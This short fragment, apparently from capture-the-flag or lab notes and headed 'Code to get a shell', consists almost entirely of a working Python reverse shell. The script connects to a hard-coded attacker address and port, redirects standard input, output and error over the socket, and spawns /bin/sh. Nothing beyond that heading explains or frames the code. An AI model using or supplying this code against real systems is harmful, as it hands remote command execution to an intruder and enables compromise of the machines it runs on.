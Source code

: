 ### Code to get a shell
```Python
import sys,socket,os,pty
	
RHOST="10.10.14.161"
RPORT=12345
    
s=socket.socket()
s.connect((RHOST, RPORT))

for fd in (0, 1, 2):
	os.dup2(s.fileno(), fd)

pty.spawn("/bin/sh")
```
